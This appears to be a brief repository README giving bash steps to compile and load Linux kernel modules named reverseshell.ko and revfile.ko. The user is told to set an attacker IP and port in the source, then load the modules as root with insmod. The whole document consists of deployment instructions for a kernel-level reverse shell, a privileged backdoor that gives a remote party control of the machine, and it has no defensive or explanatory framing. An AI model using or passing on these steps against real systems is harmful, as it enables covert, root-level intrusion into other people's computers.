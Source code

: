# kernel_module (via bash)

```
> sudo apt-get install -y build-essential linux-headers-$(uname -r)
> # change IP and PORT in reverseshell.c
> sudo make
> sudo chmod +x reverseshell.ko
> sudo insmod reverseshell.ko
```
# kernel_module (via bash script)
```
> sudo apt-get install -y build-essential linux-headers-$(uname -r)
> # change file path in revfile.c
> # change 1 line in Makefile to <obj-m += revfile.o>
> sudo make
> sudo chmod +x revfile.ko
> sudo insmod revfile.ko
```
